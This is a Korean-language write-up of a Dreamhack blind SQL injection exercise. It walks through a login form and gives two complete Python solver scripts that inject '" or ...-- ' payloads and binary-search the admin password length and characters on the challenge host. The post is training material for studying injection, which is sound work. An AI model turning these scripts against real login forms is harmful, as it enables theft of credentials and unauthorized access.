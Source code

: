 ```yaml
---
title: Dreamhack Exercise Blind SQL Injection
date: 2022-02-21 15:26:07
tags: Dreamhack
categories: Dreamhack
---
```


## 서비스 요약
- /login : 이용자에게 ID 와 비밀번호를 입력받고 이를 데이터베이스에서 조회하여 이용자를 인증합니다

## Blind SQL Injection
비밀번호는 SQLite 의 users 테이블에 있으므로 , 이 테이블의 값을 읽는 Blind SQL Injection 코드를 작성하겠습니다

지난 SQL Injection 코스에서 이야기 한 것처러 Blind SQL Injection 은 여러 번의 질의를 통해 정답을 찾아내는 스무고개 놀이와 비슷합니다

비밀번호를 구성할 수 있는 문자를 출력 가능한 아스키 문자로 제한했을 때 한자리에 들어갈 수 있는 문자의 종류는 94 (0x20 ~ 0x7E)개입니다. ✨아스키 테이블을 확인해보세요. 

비밀번호가 10 자리만 되어도 가능한 경우의 수가 94 10 ≃5×10 19 개에 이릅니다

다행히 쿼리르 잘 이용하면 각 자리를 따로 조사할 수 있으므로 실제로 전송해야할 최대 쿼리의 갯수는 940 = 94 x 10 로 줄어듭니다

이분 탐색 알고리즘을 적용하면 log2 94 x 10 = 65 개로 더욱 축소됩니다

적어보일 수 있지만 여전히 직접 시도하기에는 많습니다
더욱이 비밀번호의 길이가 이보다 길수도 있으므로 자동화 스크립트를 작성하는 것이 바람직합니다

### 로그인 요청의 폼 구조 파악
쿼리를 자동화 하려면 로그인할 때 전송하는 POST 데이터의 구조를 파악해야 합니다

1. 개발자 도구의 네트워크 탭 열고, Preserve log 클릭
2. userid에 guest, password에 guest를 입력하고 login 버튼 클릭
3. 메세지 목록에서 /login으로 전송된 POST 요청 찾기
4. 하단의 Form Data 확인

로그인할 때 입력한 userid 값은 userid로 password는 userpassword로 전송됨을 확인할 수 있습니다

## 비밀번호 길이 파악
비밀번호를 알아내기 전에 길이를 먼저 파악하겠습니다
다음과 같이 admin 의 비밀번호 길이를 찾아내는 파이썬 스크립트를 작성해보세요

Figure2 비밀번호 길이 구하기

```python
#!/usr/bin/python3.9
import requests
import sys
from urllib.parse import urljoin
class Solver:
    """Solver for simple_SQLi challenge"""
    # initialization
    def __init__(self, port: str) -> None:
        self._chall_url = f"http://host1.dreamhack.games:{port}"
        self._login_url = urljoin(self._chall_url, "login")
    # base HTTP methods
    def _login(self, userid: str, userpassword: str) -> bool:
        login_data = {
            "userid": userid,
            "userpassword": userpassword
        }
        resp = requests.post(self._login_url, data=login_data)
        return resp
    # base sqli methods
    def _sqli(self, query: str) -> requests.Response:
        resp = self._login(f"\" or {query}-- ", "hi")
        return resp
    def _sqli_lt_binsearch(self, query_tmpl: str, low: int, high: int) -> int:
        while 1:
            mid = (low+high) // 2
            if low+1 >= high:
                break
            query = query_tmpl.format(val=mid)
            if "hello" in self._sqli(query).text:
                high = mid
            else:
                low = mid
        return mid
    # attack methods
    def _find_password_length(self, user: str, max_pw_len: int = 100) -> int:
        query_tmpl = f"((SELECT LENGTH(userpassword) WHERE userid=\"{user}\")<{{val}})"
        pw_len = self._sqli_lt_binsearch(query_tmpl, 0, max_pw_len)
        return pw_len
    def solve(self):
        pw_len = solver._find_password_length("admin")
        print(f"Length of admin password is: {pw_len}")
if __name__ == "__main__":
    port = sys.argv[1]
    solver = Solver(port)
    solver.solve()
```

## 비밀번호 획득
비밀번호의 길이를 찾았으므로 이제 한 글자씩 비밀번호를 알아내는 코드를 작성하겠습니다
이진 탐색 알고리즘을 활용하면 시간을 단축할 수 있습니다

Figure4 정답 예제

```python
#!/usr/bin/python3.9
import requests
import sys
from urllib.parse import urljoin
class Solver:
    """Solver for simple_SQLi challenge"""
    # initialization
    def __init__(self, port: str) -> None:
        self._chall_url = f"http://host1.dreamhack.games:{port}"
        self._login_url = urljoin(self._chall_url, "login")
    # base HTTP methods
    def _login(self, userid: str, userpassword: str) -> requests.Response:
        login_data = {
            "userid": userid,
            "userpassword": userpassword
        }
        resp = requests.post(self._login_url, data=login_data)
        return resp
    # base sqli methods
    def _sqli(self, query: str) -> requests.Response:
        resp = self._login(f"\" or {query}-- ", "hi")
        return resp
    def _sqli_lt_binsearch(self, query_tmpl: str, low: int, high: int) -> int:
        while 1:
            mid = (low+high) // 2
            if low+1 >= high:
                break
            query = query_tmpl.format(val=mid)
            if "hello" in self._sqli(query).text:
                high = mid
            else:
                low = mid
        return mid
    # attack methods
    def _find_password_length(self, user: str, max_pw_len: int = 100) -> int:
        query_tmpl = f"((SELECT LENGTH(userpassword) WHERE userid=\"{user}\") < {{val}})"
        pw_len = self._sqli_lt_binsearch(query_tmpl, 0, max_pw_len)
        return pw_len
    def _find_password(self, user: str, pw_len: int) -> str:
        pw = ''
        for idx in range(1, pw_len+1):
            query_tmpl = f"((SELECT SUBSTR(userpassword,{idx},1) WHERE userid=\"{user}\") < CHAR({{val}}))"
            pw += chr(self._sqli_lt_binsearch(query_tmpl, 0x2f, 0x7e))
            print(f"{idx}. {pw}")
        return pw
    def solve(self) -> None:
        # Find the length of admin password
        pw_len = solver._find_password_length("admin")
        print(f"Length of the admin password is: {pw_len}")
        # Find the admin password
        print("Finding password:")
        pw = solver._find_password("admin", pw_len)
        print(f"Password of the admin is: {pw}")
if __name__ == "__main__":
    port = sys.argv[1]
    solver = Solver(port)
    solver.solve()
```

## 플래그 획득
![SQL](https://kr.object.ncloudstorage.com/dreamhack-content/page/c0c8073300fcd6b38f0718448d278f5080f74202a0d28469d169e03aa5fc8234.png)

획득한 비밀번호를 이용하여 admin 으로 로그인하면 플래그를 획득할 수 있습니다

## Reference
Reference : https://dreamhack.io